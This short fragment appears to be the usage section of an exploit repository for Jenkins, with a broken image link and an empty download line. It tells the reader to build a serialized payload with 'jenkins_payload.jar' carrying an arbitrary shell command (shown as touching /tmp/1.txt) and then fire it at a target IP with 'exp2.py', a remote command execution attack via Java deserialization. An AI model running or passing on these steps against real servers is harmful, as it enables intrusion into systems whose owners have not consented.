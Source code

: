 How to use:
1.Download jar file:
2.use "java -jar jenkins_payload.jar payload.ser "/usr/bin/touch /tmp/1.txt"  to create a ser file.
3.run exp2.py "exp2.py -p HTTP -t [ip]"


